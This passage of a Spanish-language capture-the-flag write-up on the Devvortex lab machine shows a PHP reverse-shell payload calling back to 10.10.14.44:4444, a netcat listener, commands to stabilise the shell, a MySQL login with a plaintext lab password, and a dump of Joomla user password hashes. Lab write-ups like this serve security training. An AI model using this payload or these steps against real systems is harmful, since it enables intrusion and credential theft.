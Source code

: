 ```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/4444 0>&1'");
```

Nos pondremos en "escucha" por el puerto 4444 con el codigo
```
nc -lvnp 4444
```

Guardaremos el archivo .php dandole a save arriba y....

PUM! estamos dentro!
![Branching](/assets/images/devvortex/dentro.JPG)


Usaremos estos comandos en el mismo orden para poner bien la terminal.
```
script /dev/null -c /bin/bash

stty raw -echo; fg
export TERM=xterm
```

Y empezaremos con el mysql, introduciendo el usuario y la contraseña que ya teniamos de antes.
```
mysql -u lewis -p

Contraseña: P4ntherg0t1n5r3c0n##
```
Una vez dentro introduciremos los comandos y podremos ver la tabla con dos usuarios y sus contraseñas
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
